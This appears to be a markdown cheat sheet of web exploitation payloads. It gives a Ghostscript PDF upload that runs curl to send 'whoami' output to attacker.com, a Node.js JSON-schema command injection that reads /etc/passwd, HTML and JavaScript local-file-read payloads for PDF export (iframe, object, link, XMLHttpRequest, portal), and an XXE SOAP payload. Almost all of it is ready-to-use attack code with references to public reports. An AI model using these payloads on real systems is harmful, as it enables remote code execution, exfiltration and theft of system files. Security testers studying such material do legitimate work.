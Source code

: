 # Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

[https://www.openwall.com/lists/oss-security/2018/08/21/2](https://www.openwall.com/lists/oss-security/2018/08/21/2)

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```

### XXE

- [XXE inside a SOAP node](https://twitter.com/agarri_fr/status/656440244116574208?lang=en):

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://0x0:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```
